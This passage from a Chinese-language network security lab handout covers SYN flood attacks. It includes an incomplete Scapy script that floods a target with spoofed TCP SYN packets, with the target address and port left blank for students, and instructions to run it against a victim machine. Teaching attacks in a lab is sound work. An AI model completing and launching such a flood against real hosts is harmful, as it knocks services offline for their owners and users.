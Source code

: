 \begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}





\subsection{Task 1.1: 使用 Python 发起攻击}

我们提供了一个名为 \texttt{synflood.py} 的Python程序，
但故意在代码中省略了一些重要的数据。
这段代码发送了欺骗性的TCP SYN数据包，其中有随机生成的源IP地址、源端口和序列号。
学生应该完成这段代码，然后用它在目标机上发起攻击。

\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

让攻击运行至少一分钟，然后尝试telnet连进受害者的机器，看看你是否能连接成功。
你的攻击很可能会失败，下面列出导致失败的多种问题以及解决方式

